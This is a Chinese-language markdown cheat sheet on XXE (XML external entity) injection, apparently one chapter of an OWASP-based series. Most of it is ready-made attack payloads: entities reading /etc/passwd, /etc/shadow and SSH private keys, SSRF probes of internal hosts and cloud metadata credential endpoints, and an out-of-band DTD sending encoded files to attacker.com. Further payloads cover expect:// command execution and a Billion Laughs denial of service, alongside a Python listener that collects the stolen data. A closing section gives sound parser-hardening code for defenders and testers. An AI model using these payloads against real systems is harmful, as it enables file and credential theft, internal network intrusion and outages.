

# 📄 XXE（XML 外部实体注入）全技巧

> **OWASP Top 10 2021 — A03: Injection（注入）**
> **XXE（XML External Entity，XML 外部实体注入）** 是指攻击者利用 XML 解析器对外部实体的处理机制，读取服务器文件、发起 SSRF 攻击或执行 RCE 的漏洞。
> 关联：[命令注入全技巧](11-command-injection.md) | [模板注入SSTI全技巧](17-ssti.md) | [反序列化注入全技巧](18-deserialization.md) | [服务端请求伪造SSRF（A10）全技巧](15-ssrf.md)

---

## 📖 一、XXE 基础原理

### 1.1 什么是 XXE？

XML 文档可以定义**实体（Entity）**，当 XML 解析器处理实体时，如果允许加载外部资源（文件、URL），攻击者可以：

1. **读取服务器文件**（如 `/etc/passwd`）
2. **发起 SSRF 攻击**（探测内网）
3. **执行远程代码**（在某些环境中）
4. **造成拒绝服务**（Billion Laughs 攻击）

**基本漏洞示例：**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <name>&xxe;</name>
</root>
```

> 如果应用将 `&xxe;` 解析为 `/etc/passwd` 文件内容并回显，则存在 XXE 漏洞！

### 1.2 XML 实体基础

```xml
<!-- 内部实体 -->
<!ENTITY myname "John">

<!-- 外部实体 - 读取文件 -->
<!ENTITY xxe SYSTEM "file:///etc/passwd">

<!-- 外部实体 - HTTP 请求（SSRF） -->
<!ENTITY xxe SYSTEM "http://192.168.1.1/admin">

<!-- 参数实体（只能在 DTD 中使用） -->
<!ENTITY % param "value">

<!-- 通用实体 + 参数实体组合 -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY send SYSTEM 'http://attacker.com/?content=%file;'>">
```

### 1.3 常见 XML 解析库

| 语言 | 解析库 | 默认是否解析外部实体 |
|:---|:---|:---|
| **PHP** | `simplexml_load_string()` | ✅ 默认解析（5.x 版本，7.x 后更安全） |
| **PHP** | `DOMDocument::load()` | ✅ 默认解析 |
| **Java** | `DocumentBuilder` | ✅ 默认解析（旧版本） |
| **Java** | `SAXParser` | ✅ 默认解析 |
| **Python** | `xml.etree.ElementTree` | ❌ 不解析（安全） |
| **Python** | `lxml` | ✅ 默认解析 |
| **Python** | `xml.dom.minidom` | ✅ 默认解析 |
| **C#/.NET** | `XmlDocument` | ❌ 默认不解析（.NET 4.5.2+） |
| **C#/.NET** | `XPathDocument` | ❌ 默认不解析（.NET 4.5.2+） |

### 1.4 XXE 的危害

| 危害 | 说明 |
|:---|:---|
| 📂 **任意文件读取** | 读取配置文件、源码、数据库凭据 |
| 🌐 **SSRF** | 探测内网主机和端口、访问云元数据 |
| 💥 **DoS** | Billion Laughs / Quadratic Blowup 攻击 |
| ⚡ **RCE** | PHP 环境下通过 `expect://` 等协议执行命令 |
| 🔥 **Blind XXE** | 无回显时通过带外（OOB）通道窃取数据 |
| ☁️ **云元数据窃取** | AWS/GCP/Azure 凭据泄露 |

---

## 🔍 二、XXE 检测技巧

### 2.1 寻找 XML 输入点

```http
# 常见 XML 输入点

# 1. SOAP API
POST /api/soap HTTP/1.1
Content-Type: text/xml
<soap:Envelope>...</soap:Envelope>

# 2. REST API 的 XML 格式
POST /api/users HTTP/1.1
Content-Type: application/xml
<user><name>John</name></user>

# 3. 文件上传 - SVG 图片
POST /upload HTTP/1.1
Content-Type: image/svg+xml
<svg ...>...</svg>

# 4. DOCX/XLSX/PPTX 文件上传（都是 ZIP 中的 XML）
# 5. RSS/Atom Feed 解析
# 6. SAML/OpenID 认证响应
# 7. WebDAV 请求
# 8. XML-RPC
```

### 2.2 基础检测 Payload

```xml
<!-- 检测 1：如果 XML 解析报错，看错误信息 -->
<!-- 发送非格式良好的 XML -->
<root><test>test</test>

<!-- 检测 2：实体注入测试 -->
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe "test123">
]>
<root>&xxe;</root>

<!-- 如果返回 test123，说明实体被解析 -->

<!-- 检测 3：文件读取测试 -->
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>

<!-- 如果返回 /etc/passwd 内容，存在 XXE -->

<!-- 检测 4：Windows 文件读取 -->
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">
]>
<root>&xxe;</root>
```

### 2.3 无回显（Blind）检测

```xml
<!-- Blind XXE 检测：通过 HTTP 请求判断 -->

<!-- 向攻击者服务器发起请求 -->
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://YOUR-SERVER.com/test">
]>
<root>&xxe;</root>

<!-- 在服务器上收到请求 → 存在 XXE（即使无回显） -->
```

---

## 🚀 三、进阶利用技巧

### 3.1 文件读取

```xml
<!-- Linux 敏感文件 -->
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>

<!-- 其他常用文件 -->
file:///etc/shadow
file:///etc/nginx/nginx.conf
file:///etc/apache2/apache2.conf
file:///proc/self/environ
file:///proc/self/cmdline
file:///root/.ssh/id_rsa
file:///var/www/html/config.php
file:///home/app/.env

<!-- Windows 敏感文件 -->
file:///c:/windows/win.ini
file:///c:/boot.ini
file:///c:/windows/system32/drivers/etc/hosts
file:///c:/windows/repair/sam
file:///c:/inetpub/wwwroot/web.config
file:///c:/Program%20Files/.../appsettings.json
```

### 3.2 PHP Wrapper XXE

```xml
<!-- PHP 中使用 PHP 伪协议读取 PHP 文件源码（Base64 编码） -->
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root>&xxe;</root>

<!-- 读取远程文件（如果 allow_url_fopen 开启） -->
<!ENTITY xxe SYSTEM "http://attacker.com/evil.dtd">

<!-- PHP expect 模块 RCE（需要安装 expect 扩展） -->
<!ENTITY xxe SYSTEM "expect://id">
```

### 3.3 参数实体 + Blind XXE 带外数据（OOB）

```xml
<!-- 场景：应用程序解析 XML 但不回显实体内容 -->

<!-- 1. 攻击者服务器上准备外部 DTD 文件（evil.dtd） -->
<!-- evil.dtd 内容： -->
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%exfil;

<!-- 2. 发送的 Payload -->
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<root>test</root>
```

**Python 启动 OOB 服务器：**

```python
import http.server
import socketserver

class Handler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        print(f"收到请求: {self.path}")
        if self.path.startswith('/?data='):
            import base64
            data = self.path.split('=', 1)[1]
            try:
                decoded = base64.b64decode(data).decode()
                print(f"解码数据:\n{decoded}")
                with open('/tmp/xxe_data.txt', 'w') as f:
                    f.write(data)
            except:
                pass
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'OK')

with socketserver.TCPServer(("", 8888), Handler) as httpd:
    print("监听端口 8888...")
    httpd.serve_forever()
```

### 3.4 利用 XXE 实现 SSRF

```xml
<!-- 探测内网主机存活 -->
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://192.168.1.1/">
]>
<root>&xxe;</root>

<!ENTITY xxe SYSTEM "http://10.0.0.1/">
<!ENTITY xxe SYSTEM "http://172.16.0.1/">

<!-- 探测端口 -->
<!ENTITY xxe SYSTEM "http://127.0.0.1:80/">
<!ENTITY xxe SYSTEM "http://127.0.0.1:8080/">
<!ENTITY xxe SYSTEM "http://127.0.0.1:443/">
<!ENTITY xxe SYSTEM "http://127.0.0.1:3306/">

<!-- 利用响应时间差判断端口是否开放 -->
<!-- 开放端口：响应快 -->
<!-- 关闭端口：连接超时慢 -->
```

### 3.5 云元数据窃取

```xml
<!-- AWS 云元数据（经典端点） -->
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/user-data/">
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">

<!-- AWS IMDSv2（需要 token） -->
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/api/token">

<!-- GCP 云元数据 -->
<!ENTITY xxe SYSTEM "http://metadata.google.internal/computeMetadata/v1/">
<!ENTITY xxe SYSTEM "http://metadata.google.internal/computeMetadata/v1/project/project-id">

<!-- Azure 云元数据 -->
<!ENTITY xxe SYSTEM "http://169.254.169.254/metadata/instance?api-version=2021-02-01">

<!-- Alibaba Cloud -->
<!ENTITY xxe SYSTEM "http://100.100.100.200/latest/meta-data/">
```

### 3.6 XInclude 注入

```xml
<!-- 当 XML 标签中的属性值被解析时，可使用 XInclude -->

<!-- 场景：XML 中的某个属性值来自用户输入 -->
<root><element attr="用户输入"/></root>

<!-- 注入 XInclude -->
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</root>

<!-- 或使用 XPointer -->
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="xml" href="file:///etc/hosts"/>
</root>
```

### 3.7 SVG 文件上传 XXE

```xml
<!-- SVG 是 XML 格式，上传 SVG 图片可触发 XXE -->
<svg xmlns="http://www.w3.org/2000/svg" width="200" height="200">
  <defs>
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  </defs>
  <text x="20" y="20">&xxe;</text>
</svg>

<!-- 或 Blind XXE 方式 -->
<svg xmlns="http://www.w3.org/2000/svg">
  <!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://attacker.com/collect">
  ]>
  <text>&xxe;</text>
</svg>
```

### 3.8 XXE + DoS（Billion Laughs Attack）

```xml
<!-- Billion Laughs Attack（十亿笑攻击） -->
<!-- 利用递归实体扩展耗尽内存 -->

<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<root>&lol9;</root>

<!-- Quadratic Blowup Attack（二次爆炸攻击） -->
<!-- 与 Billion Laughs 不同，这种攻击利用重复的字符串倍增 -->
```

### 3.9 Java XXE 特殊利用

```xml
<!-- Java 中可利用 XXE 实现 RCE（罕见） -->

<!-- 如果允许加载远程 DTD，且存在某些反序列化 Gadget -->

<!-- JNDI 注入（类似 Log4Shell） -->
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:1389/Exploit">
]>
<root>&xxe;</root>

<!-- 利用某些 Java 解析器的功能 -->
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "jar:http://attacker.com/evil.jar!/evil.properties">
]>
```

### 3.10 XXE + 文件写入

```xml
<!-- 某些情况下，XXE 也可用于写入文件（写 Webshell） -->

<!-- 使用参数实体和 FTP 协议 -->
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
  <!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'gopher://attacker:2333/%file;'>">
  %payload;
  %send;
]>
<root>test</root>
```

---

## 🛡️ 四、防御方案

### 4.1 禁用外部实体（最有效）

```python
# Python - lxml
from lxml import etree

parser = etree.XMLParser(resolve_entities=False, no_network=True)
tree = etree.parse(xml_file, parser)
```

```java
// Java - DocumentBuilderFactory
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();

// 🔴 必须全部禁用
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
```

```php
// PHP - 使用 libxml_disable_entity_loader（PHP 7.x 以下）
$old = libxml_disable_entity_loader(true);
$xml = simplexml_load_string($xmlString);
libxml_disable_entity_loader($old);

// PHP 8.0+ 默认安全，无需额外配置
```

```csharp
// C# - .NET
XmlDocument doc = new XmlDocument();
doc.XmlResolver = null;  // ✅ 禁用外部实体解析

// 或使用安全解析器
XmlReaderSettings settings = new XmlReaderSettings();
settings.DtdProcessing = DtdProcessing.Prohibit;  // 禁止 DTD
settings.XmlResolver = null;
using (XmlReader reader = XmlReader.Create(stream, settings)) {
    doc.Load(reader);
}
```

### 4.2 输入验证与过滤

```python
import re

def sanitize_xml(input_xml):
    """移除可能包含 XXE 的 DTD 声明"""
    # 移除 DOCTYPE 声明
    cleaned = re.sub(r'<!DOCTYPE[^>]*>', '', input_xml, flags=re.IGNORECASE)
    # 移除 ENTITY 声明
    cleaned = re.sub(r'<!ENTITY[^>]*>', '', cleaned, flags=re.IGNORECASE)
    return cleaned

# ⚠️ 注意：正则过滤不够安全，最好在解析器层面禁用外部实体
```

### 4.3 使用 JSON 替代 XML

```python
# ✅ 推荐：如果可能，使用 JSON 替代 XML
# JSON 没有实体、DTD 等概念，天然防御 XXE
import json

data = json.loads(request.data)  # 安全
```

### 4.4 内容类型校验

```python
from flask import Flask, request, abort

app = Flask(__name__)

@app.route('/api/upload', methods=['POST'])
def upload():
    # 拒绝 SVG 文件中的 XXE
    # 如果必须解析 XML，使用安全解析器
    
    content_type = request.content_type
    
    # 如果应用不需要 XML，拒绝 XML 格式
    if 'xml' in content_type.lower():
        # 确保使用安全配置解析
        pass
```

### 4.5 通用防御原则

| 措施 | 说明 |
|:---|:---|
| ✅ **禁用 DTD** | 完全禁用 DOCTYPE 声明 |
| ✅ **禁用外部实体** | 禁用外部通用实体和参数实体 |
| ✅ **禁用 XInclude** | 禁用 XML Inclusions |
| ✅ **使用 JSON** | 优先使用 JSON 而非 XML |
| ✅ **白名单验证** | 只允许特定的 XML 结构和内容 |
| ✅ **最小权限** | Web 服务以最小权限运行 |
| ✅ **输入大小限制** | 限制 XML 输入大小防止 DoS |

---

## 🎯 五、检测流程速查

### 5.1 手动测试步骤



### 5.2 测试 Checklist

- [ ] 所有接收 XML 的端点（SOAP、REST XML、RSS/Atom）
- [ ] 文件上传功能（SVG、DOCX、XLSX、ODF）
- [ ] SAML 认证响应
- [ ] WebDAV 协议
- [ ] XML-RPC API
- [ ] 测试 `file://` 协议读取服务器文件
- [ ] 测试 `http://` 协议发起 SSRF
- [ ] 测试 Blind XXE OOB（参数实体外带）
- [ ] 测试 XInclude 注入
- [ ] 测试 PHP 伪协议（如果是 PHP 环境）
- [ ] 测试云元数据接口

### 5.3 常用 Payload 速查

```xml
<!-- 文件读取 -->
<!ENTITY xxe SYSTEM "file:///etc/passwd">

<!-- SSRF 探测 -->
<!ENTITY xxe SYSTEM "http://127.0.0.1:8080/admin">

<!-- PHP Wrapper 读源码 -->
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=config.php">

<!-- Blind XXE OOB -->
<!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">

<!-- XInclude -->
<xi:include parse="text" href="file:///etc/passwd"/>

<!-- AWS 元数据 -->
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
```

### 5.4 推荐工具

| 工具 | 用途 |
|:---|:---|
| **Burp Suite** | 手动测试 + Intruder 模糊测试 |
| **XXEInjector** | 自动化 XXE 检测工具 |
| **dtp（dtd tool）** | Blind XXE 自动利用 |
| **Interact.sh** | OOB 带外通道接收平台 |
| **nuclei** | 模板化漏洞扫描 |

---

## 🔗 关联文件

| 文件 | 关联说明 |
|:---|:---|
| [服务端请求伪造SSRF（A10）全技巧](15-ssrf.md) | XXE 常用于 SSRF 攻击 |
| [命令注入全技巧](11-command-injection.md) | XXE + PHP expect RCE |
| [模板注入SSTI全技巧](17-ssti.md) | 同属服务端注入类漏洞 |
| [安全配置错误（A05）全技巧](24-a05-security-misconfiguration.md) | XML 解析器默认配置不安全 |
| [加密机制失效（A02）全技巧](22-a02-cryptographic-failures.md) | SAML XML 签名验证绕过 |

> **💡 核心原则**：XXE 的根源在于 XML 解析器默认允许加载外部实体。防御的关键是 **在解析器层面禁用 DTD 和外部实体解析**，永远不要依赖输入过滤！
